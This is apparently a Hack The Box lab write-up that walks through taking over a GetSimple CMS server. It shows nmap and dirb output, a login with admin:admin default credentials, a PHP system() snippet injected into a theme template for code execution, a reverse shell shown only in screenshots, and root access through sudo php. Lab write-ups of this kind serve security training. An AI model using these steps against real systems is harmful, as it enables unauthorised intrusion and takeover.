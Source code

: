 ## Enumeration / Recon

Nmap Scan - Check open ports

```bash
nmap -sCV -oN nmap.txt ip_addr
```

```bash
# Nmap 7.94SVN scan initiated Thu Jun  6 21:22:22 2024 as: nmap -sCV -oN nmap.txt -v 10.129.194.173
Nmap scan report for 10.129.194.173
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  6 21:22:34 2024 -- 1 IP address (1 host up) scanned in 12.30 seconds
```

> We see that there are only 2 ports open, SSH and HTTP, we can do some more recon on the web server as it is most likely our way to get a foothold on the machine.

### Web Enumeration

```bash
$ dirb http://10.129.194.173 -o dirb.out
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.out
START_TIME: Fri Jun  7 14:34:45 2024
URL_BASE: http://10.129.194.173/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.194.173/ ----
==> DIRECTORY: http://10.129.194.173/admin/                                                                                                                                                  
==> DIRECTORY: http://10.129.194.173/backups/                                                                                                                                                
==> DIRECTORY: http://10.129.194.173/data/                                                                                                                                                   
+ http://10.129.194.173/index.php (CODE:200|SIZE:5485)                                                                                                                                       
==> DIRECTORY: http://10.129.194.173/plugins/                                                                                                                                                
+ http://10.129.194.173/robots.txt (CODE:200|SIZE:32)                                                                                                                                        
+ http://10.129.194.173/server-status (CODE:403|SIZE:279)                                                                                                                                    
+ http://10.129.194.173/sitemap.xml (CODE:200|SIZE:431)                                                                                                                                      
==> DIRECTORY: http://10.129.194.173/theme/
```

We have an interesting directory /admin/
The webpage gives us a login prompt, checking most common default credentials, admin:admin and we are in.
At the bottom of the admin dashboard we can see that the webpage is running on - GetSimpleCMS 3.3.15
There are a lot of explpiots availalbe online but we can try to get a shell by manual exploitation.

One interesting thing I noticed the web page has is the theme module, we can edit themes which are a bunch of php files that can be run on the web server and they have no input sanitization and we can run the PHP system command.
To get to the theme editing page follow the steps below:

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6898f45a-250b-42f7-9ab6-3fb3e7af28cc)

It should take you to the Innovation theme default template page,
delete all the php code from the default template and put the following code -

```bash
<?php system ('id'); ?>
```

> NOTE: I lost access to the machine and had to spawn it again, please dont get confused if you see 2 different IPs.

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/b7372da9-83ca-4572-8414-519e5dae9d94)

After making the changes, copy the url mentioned in the same webpage, it should look something like ```http://gettingstarted.htb/theme/Innovation/template.php```
If you are unable to visit this website make sure to edit the /etc/hosts file with the following command - sudo nano /etc/hosts
It should open the hosts file and at the bottom of the file add the following 
```bash
10.129.42.249    gettingstarted.htb
```

We have code execution
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/9b24239d-3f83-4bbc-8bef-4a11166e2c41)

Lets start up a ncat listener, you can also use nc
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/605147ff-77d5-4031-b0a8-bed22a78a4f8)

We will use a bash reverse shell payload.
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/25922b82-8a6b-4280-98a8-8df73ef37a51)

Save changes and refresh the theme/Innovation/template.php page
We get a reverse shell, lets use python pty to stabilize the shell
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/00b94010-da73-41d5-84d1-45c48e3f05e5)

Cool, now we can do Ctrl+c to stop processes and use Tab auto complete.
We are logged in as www-data, lets see what the user can do, first things first lets check the kernel version and if we can run any commands using sudo.
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/a817684d-1c14-48ec-acb6-cfa632bd8822)

Awesome, we can run ```/usr/bin/php``` using ```sudo``` without a password. Lets download a php reverse shell and place it under /tmp/
We can run php commands using the command line using the -r option, lets try to get the id.
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/da61432c-4131-47e4-8d6b-fbe3ede7e949)

PWN3D !!! I am ROOT !!!

You can get the flags from ```/root/root.txt and /home/mrb3n/user.txt```

Thanks for reading, if this helped you, please respect on HTB Labs - 
